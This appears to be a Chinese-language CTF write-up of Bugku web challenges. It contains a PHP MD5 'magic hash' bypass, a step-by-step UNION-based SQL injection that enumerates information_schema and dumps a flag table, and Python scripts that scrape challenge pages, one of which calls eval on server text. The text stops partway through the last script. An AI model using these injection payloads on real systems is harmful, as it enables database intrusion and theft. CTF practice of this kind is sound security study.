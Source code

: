   ```
  s214587387a
  s214587387a
  ```
  - `?kekeyy1=240610708&kekeyy2=QNKCDZO`
- Bugku{OH_YOU_FIND_MY_MOMY}

## 成绩单查询
标准sql注入题
- hackbar注入`id=1'#` 成功
- 判断列数`id=1' order by 4#`四列，五列测试不对
- 联合查询`id=0' union select 1,2,3,4#`z成功
- 查询`id=0' union select 1,database(),user(),version()#`
- 看到数据库名称含有flag
  `skctf_flag	  skctf_flag@localhost	  5.5.34-log`
- 查询表名 `id=0' union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema='skctf_flag')#`得到表名fl4g
- 查询表的列名`id=0'union select 1,2,3,(select group_concat(column_name)
 from information_schema.columns where table_name='fl4g')#`得出列skctf_flag
- 查询数据`id=0' union select 1,2,3,(select skctf_flag from fl4g)#`
- BUGKU{Sql_INJECT0N_4813drd8hz4}

## 秋名山老司机
题目：亲请在2s内计算老司机的车速是多少
1453188555*112050552*2035911046+129564843-990655641*10801555*1826101406-742934982+1688885834-387627083+502307721=?;
车速太快人不行了 借助py
- 看看前辈 https://www.jianshu.com/p/b0a5d72c8bae
  ```python
  #改一下url
  import requests
  import re
  url = 'http://120.24.86.145:8002/qiumingshan/'
  s = requests.Session()
  source = s.get(url)
  expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
  result = eval(expression)
  post = {'value': result}
  print(s.post(url, data = post).text)  
  ```
- 跑了好几次
- Bugku{YOU_DID_IT_BY_SECOND}

## 速度要快
打开网页：我感觉你得快点!!!
- 看源码有注释
- 抓包看一下raw中有base64 解码后验证不是flag
- 每一次go base64都不一样
- 写脚本
  ```python
  #coding:utf-8
  import requests
  import base64

  url='http://123.206.87.240:8002/web6/'
  s=requests.Session()
  header=s.get(url).headers
  #print(header)
  flag = base64.b64decode(base64.b64decode(header['flag']).decode() .split(':')[1]).decode() #对其进行base64两次解密

  data={'margin':flag}

  ```